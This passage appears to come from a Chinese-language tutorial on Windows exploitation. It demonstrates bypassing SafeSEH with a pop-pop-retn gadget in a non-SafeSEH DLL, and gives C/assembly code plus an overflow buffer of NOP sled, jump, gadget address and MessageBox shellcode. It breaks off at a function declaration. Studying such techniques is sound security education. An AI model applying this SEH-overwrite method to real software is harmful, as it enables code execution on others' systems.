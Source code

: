 > 注意：注意0的情况，字符串复制是遇到0截止的

## 利用未启用SafeSEH的模块来绕过SafeSEH

### 代码

```cpp
// SEH_NOSafeSEH_JUMP.DLL
# include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  return TRUE;
}

void jump()
{
  __asm
  {
    pop eax
    pop eax
	  retn
  }
}

// SEH_NOSafeSEH.EXE
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xEB\x0E\x90\x90" // 220 Byte NOP, retn here, jmp to shellcode
"\x81\x11\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90" // to prevent SEH chain stack overfill
// shellocode
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
```